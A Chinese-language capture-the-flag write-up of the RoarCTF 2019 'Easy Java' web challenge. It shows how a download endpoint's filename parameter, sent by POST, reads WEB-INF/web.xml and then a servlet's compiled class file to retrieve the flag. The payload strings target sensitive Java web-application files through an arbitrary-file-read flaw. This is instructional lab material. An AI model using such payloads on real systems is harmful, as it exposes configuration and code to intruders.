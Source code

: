 # RoarCTF 2019

## Web

### Easy Java

这是一道关于 Java WEB 的题目，通过点击 Help 按钮跳转到 `/Download?filename=help.docx` 会回显 `java.io.FileNotFoundException:{help.docx}`

#### **WEB-INF**

WEB-INF 是 Java 的 web 应用的安全目录，属于敏感目录，目录结构（模拟）如下图

<figure><img src=".gitbook/assets/easyjava-3.png" alt=""><figcaption></figcaption></figure>

因此可以尝试 payload `filename=WEB-INF/web.xml` ，发现无法得到内容，尝试使用 POST 进行传入，可以得到以下内容

<figure><img src=".gitbook/assets/easyjava-1.png" alt=""><figcaption></figcaption></figure>

```xml
   <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>
```

通过使用 `/WEB-INF/classes/` 来找 flag 即可，构造 payload `filename=/WEB-INF/classes/com/wm/ctf/FlagController.class` 就可以得到 flag 了

<figure><img src=".gitbook/assets/easyjava-2.png" alt=""><figcaption></figcaption></figure>
